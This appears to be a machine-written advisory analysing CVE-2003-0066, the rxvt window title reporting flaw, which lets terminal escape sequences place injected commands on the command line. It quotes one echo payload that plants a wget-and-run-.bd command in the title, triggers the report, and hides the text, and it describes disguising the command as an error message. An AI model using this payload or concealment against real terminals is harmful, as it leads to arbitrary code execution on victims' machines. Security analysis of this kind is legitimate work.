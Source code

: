 Based on the provided content, here's an analysis of CVE-2003-0066:

**Verification:**

The provided document explicitly lists `CAN-2003-0066 Window Title Reporting: rxvt` within its "Vulnerability Index" section, indicating a direct relationship with this CVE.

**Vulnerability Details:**

*   **Root Cause:** The vulnerability stems from the improper handling of terminal escape sequences, specifically those used for setting and reporting the window title. The `rxvt` terminal emulator allows the window title to be placed directly onto the command line via a specific escape sequence.
*   **Weaknesses/Vulnerabilities:** The core vulnerability is the ability of the terminal emulator (`rxvt` in this case) to report the current window title by placing it on the command line. This can be exploited because the content of the window title is not sanitized, allowing an attacker to insert arbitrary commands.
*   **Impact of Exploitation:** An attacker can inject malicious commands into the window title. When the user triggers the "report window title" escape sequence and then presses enter, these commands are executed in the user's shell. This can lead to arbitrary code execution on the victim's machine, allowing for actions such as downloading and executing malware, creating backdoors, modifying system files, etc.
*   **Attack Vectors:**
    *   An attacker must display arbitrary data on the victim's terminal emulator to set the malicious window title. This can be achieved in multiple ways:
        *   By exploiting vulnerabilities in applications that log data directly to the terminal (e.g., vulnerable syslog daemons, web server error logs).
        *   By sending malicious data through command-line tools that display responses to the terminal (e.g., wget, curl, ftp, telnet).
        *   By exploiting multi-user systems where any user can send system-wide messages to other users' terminals.
        *   By using content in email attachments that are displayed via "cat" or similar tools.
    *   The attacker also needs to use the "report window title" escape sequence, and the victim needs to press Enter for the commands to execute.
*   **Required Attacker Capabilities/Position:**
    *   The attacker needs the ability to send or inject arbitrary data to be displayed on the victim's terminal.
    *   The attacker needs to understand the terminal escape sequences to properly craft the malicious title and use the report sequence.
    *  The attacker also needs some level of social engineering to make the victim hit enter. This can be done by either using invisible text or by disguising the command as an error message.

**Additional Details:**

*   The document explains that the window title reporting vulnerability is present in various terminal emulators, including xterm, dtterm, uxterm, rxvt, aterm, Eterm, hanterm, and putty.
*   It highlights that some emulators, like gnome-terminal and konsole, are not vulnerable to this attack.
*   The document provides an example of how to inject malicious code into the window title and execute it using wget:

    ```bash
    echo -e "\e]2;;wget 127.0.0.1/.bd;sh .bd;exit;\a\e[21t\e]2;xterm\aPress Enter>\e[8m;"
    ```
*   It also mentions methods to hide the malicious command line by making it invisible or by camouflaging it as an error message.

In summary, CVE-2003-0066 is a vulnerability in `rxvt` that allows attackers to execute arbitrary code by injecting it into the terminal window title and then using the "report title" escape sequence, which then relies on the user hitting enter. This is a classic example of how terminal emulator features can be leveraged for malicious purposes when not properly handled.
